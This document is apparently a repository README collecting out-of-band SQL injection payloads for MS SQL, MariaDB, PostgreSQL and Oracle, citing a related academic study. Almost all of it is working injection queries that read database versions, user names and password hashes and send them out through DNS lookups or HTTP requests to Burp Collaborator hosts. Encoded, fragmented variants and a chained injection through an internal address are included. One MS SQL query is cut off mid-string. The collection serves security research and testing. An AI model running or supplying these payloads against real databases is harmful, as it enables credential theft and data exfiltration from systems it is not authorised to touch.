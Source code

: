 # OOB-SQLi

This part is for sharing sample queries for Out-of-Band (OOB) Structured Query Language (SQL) injection purpose. The detailed discussion may refer to the following links

https://zenodo.org/record/3556347#.XeDK1tURVPY
https://www.academia.edu/41117452/A_Study_of_Out-of-Band_Structured_Query_Language_Injection

# DNS Based Exfiltration

1. Microsoft SQL database

DECLARE @a varchar(1024); DECLARE @b varchar(1024); SELECT @a = (SELECT system_user);   SELECT @b = (SELECT DB_Name()); EXEC('master..xp_dirtree

2. MariaDB

select load_file(CONCAT('\\\\',(SELECT+@@version),'.',(SELECT+user),'.',(SELECT+password),'.','n5tgzhrf768l71uaacqu0hqlocu2ir.burpcollaborator.net\\vfw')) 

3. PostgreSQL database

DROP TABLE IF EXISTS table_output; CREATE TABLE table_output(content text); CREATE OR REPLACE FUNCTION temp_function()RETURNS VOID AS $$ DECLARE exec_cmd TEXT; DECLARE query_result_version TEXT; DECLARE query_result_user TEXT; DECLARE query_result_password TEXT; BEGIN SELECT INTO query_result_version (SELECT current_setting('server_version')); SELECT INTO query_result_user (SELECT usename FROM pg_shadow); SELECT INTO query_result_password (SELECT passwd FROM pg_shadow); exec_cmd := E'COPY table_output(content) FROM E\'\\\\\\\\'||query_result_version||'.'||query_result_user||'.'||query_result_password||E'.n4sg4c5uh0t38fdncn1496qg47axym.burpcollaborator.net\\\\foobar.txt\''; EXECUTE exec_cmd; END; $$ LANGUAGE plpgsql SECURITY DEFINER; SELECT temp_function();

4. Oracle database

SELECT DBMS_LDAP.INIT((SELECT version FROM v$instance)||'.'||(SELECT user FROM dual)||'.'||(select name from V$database)||'.'||'d4iqio0n80d5j4yg7mpu6oeif9l09p.burpcollaborator.net',80) FROM dual;

# HTTP Based Exfiltration

1. Oracle database

SELECT UTL_HTTP.request('http://fexvz59jd1088tjhf7y6z0onkeq4et.burpcollaborator.net/'||'?version='||(SELECT version FROM v$instance)||'&'||'user='||(SELECT user FROM dual)||'&'||'hashpass='||(SELECT spare4 FROM sys.user$ WHERE rownum=1)) FROM dual;

# Advanced OOB SQL Injection

1. Fragmentation + Encoding

DECLARE @d varchar(1024); DECLARE @T varchar(1024); SELECT @d = (SELECT SUBSTRING(CAST(SERVERPROPERTY('edition') as varbinary(max)), 1,LEN(CAST(SERVERPROPERTY('edition') as varbinary(max)))/2) FOR XML PATH(''), BINARY BASE64); SELECT @T = (SELECT REPLACE(@d, '=', '')); EXEC('master..xp_dirtree "\\'+@T+'.ophd0voy
beiseglonirht1morfx5lu.burpcollaborator.net\egg$"');                 

DECLARE @e varchar(1024); DECLARE @T varchar(1024); SELECT @e = (SELECT SUBSTRING(CAST(SERVERPROPERTY('edition') as varbinary(max)), LEN(CAST(SERVERPROPERTY('edition') as varbinary(max)))/2, LEN(CAST(SERVERPROPERTY('edition') as varbinary(max)))) FOR XML PATH(''), BINARY BASE64); SELECT @T = (SELECT REPLACE(@e, '=', '')); EXEC('master..xp_dirtree "\\'+@T+'.ophd0voy
beiseglonirht1morfx5lu.burpcollaborator.net\egg$"');                 

2. Chain of SQL Injection (Oracle DB + MariaDB)

SELECT UTL_HTTP.request('http://192.168.220.130/sqli.php?id=1%27%2b%28%28select%20load%5ffile%28CONCAT%28%27%5c%5c%5c%5c%27%2c%28SELECT%2buser%29%2c%27%2e%27%2c%28SELECT%2bpassword%29%2c%27%2e%27%2c%27jobuvs89ieon1z3f1qjkc0phk8qyen%2eburpcollaborator%2enet%5c%5cvfw%27%29%29%29%29%2b%27') FROM dual;                                                           
